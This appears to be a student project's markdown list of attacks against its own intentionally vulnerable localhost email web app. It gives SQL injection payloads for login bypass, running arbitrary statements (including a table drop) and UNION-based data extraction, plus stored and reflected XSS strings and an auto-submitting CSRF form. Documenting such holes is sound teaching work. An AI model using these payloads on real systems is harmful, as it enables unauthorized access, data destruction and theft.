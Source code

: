 # List of possible attacks

## SQL Injection

Unlocks: Get access without password.

On login, enter `<USERNAME>' --` as email, where `<USERNAME>` is the target username.
Enter as password any value. 
The 
resulting query:
```sql
SELECT * FROM [user] WHERE email='<USERNAME>' --' AND password='any'
```

Works, because the password is checked after the email and the input is not sanitized.

## SQL Injection

Unlocks: Run any SQL statement.

On login, enter `'; <SQL_STATEMENT> --` as email, where `<SQL_STATEMENT>` is any SQL statement, like `'; drop table [mail]; --` for 
example.
The resulting query:
```sql
SELECT * FROM [user] WHERE email=''; <SQL_STATEMENT>'
```

## Stored XSS

Unlocks: Run any JavaScript code on sender and receiver of email.

Once logged in, email an existing user with `<script>console.log("pwned");</script>` as the subject or the body of the email.
The resulting query:
```sql
INSERT INTO mail ( sender, receiver, subject, body, [time] )
VALUES ( '<sender>', '<receiver>', '<script>console.log("pwned subject");</script>', '<script>console.log("pwned body");</script>', '<timestamp>' )
```
`<sender>` and `<received>` can be any accepted value.
`<timestamp>` is auto-generated.

When emails are queried in a second moment, subject and body are read from the DB and directly embedded into the 
HTML that is sent, running the JavaScript code each time. This hold for the sender when visiting the page of sent emails
and for the receiver when visiting the inbox page.

_Note: It is important that the script does not use single quotes, because the SQL query uses single quotes already.
If the SQL query uses double quotes, then the script must use single quotes exclusively._

## Reflected XSS

On registration, pass `<script>console.log("pwned");</script>` as the email to run the script on the victim's browser.

This is equivalent to making a POST request to the following URL:
```
util.http://localhost:8080/exam-project/RegisterServlet?name=Name1&surname=Surname1&email=%3Cscript%3Econsole.log%28%22pwned%22%29%3B%3C%2Fscript%3E&password=123
```
This URL can be used for a XSRF attack, like shown below.

_Note: The email can be at most 50 characters long due the limit imposed by the database. 
Using a longer string throws an exception on the server and does not return the script in the response._

## Reflected XSS

Feature: Run any JavaScript code.

On registration, enter a valid email and `"><script>console.log("pwned");</script>` as password to run the script on the victim's browser.

This is equivalent to making a POST request to the following URL:
```
util.http://localhost:8080/exam-project/RegisterServlet?name=Name3&surname=Surname3&email=user3%40gmail.com&password=%22%3E%3Cscript%3Econsole.log%28%22pwned%22%29%3B%3C%2Fscript%3E
```
This URL can be used for a XSRF attack, like shown below.

The email check is disabled, because the responsible query is compiled to:
```sql
SELECT * FROM [user] WHERE email=''; --'
```
The password is not treated and embedded in the response, resulting in the execution of the script in the victim's browser.

_Note: The password can be at most 50 characters long due the limit imposed by the database.
Using a longer string throws an exception on the server and does not return the script in the response._

## XSRF

The following HTML page can be forged, such that the session cookie of the victim visiting the page is used to authenticate the sending of an arbitrary email.
In this example `user1@gmail.com` is forced to email `user2@gmail.com`.
```html
<form id="submitMail" class="form-resize" action="util.http://localhost:8080/exam-project/SendMailServlet"
      method="post">
    <input type="hidden" name="sender" value="user1@gmail.com">
    <input class="hidden" name="receiver" placeholder="Receiver" required="" value="user2@gmail.com">
    <input class="hidden" name="subject" placeholder="Subject" required="" value="PWNED">
    <input class="hidden" name="body" placeholder="Body" required="" value="Forced message">
</form>
<script>document.forms.submitMail.submit();</script>
```

_Note: The sender does not have to be the owner of the cookie used to authenticate the request._

## In-band SQL Injection

On login, pass `user1@gmail.com' UNION SELECT CURRENT_USER, CURRENT_USER, @@VERSION, CURRENT_USER --` as email to receive a verbose description of the database version and the name of the current database user.

_Note: 4 expressions are used in the select statement, because the user table has 4 columns too. 
Only the 3rd and the 4th expression are then extracted and returned by the web server._

## In-band SQL Injection

Assume that we know the structure of the database tables.

On login, pass `' UNION SELECT subject, subject, subject, receiver FROM mail --` as email to receive 
the subject and the receiver of the first email returned by the database.

_Note: 4 expressions are used in the select statement, because the user table has 4 columns too. 
Only the 3rd and the 4th expression are then extracted and returned by the web server._